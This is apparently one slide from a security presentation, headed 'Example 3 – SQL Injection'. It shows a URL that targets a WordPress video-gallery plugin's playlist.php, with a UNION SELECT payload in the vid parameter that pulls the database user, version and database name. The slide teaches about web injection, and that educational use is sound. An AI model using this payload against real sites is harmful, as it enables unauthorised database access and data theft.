

# Example 3 – SQL Injection
/wordpress/wp-content/plugins/all-video-gallery/xml/playlist.php?vid=2 UNION SELECT 1, 2, user(), @@version, 5, 6, 7, 8, 9, 10, database(), 12, 13, 14, 15, 16, 17, 18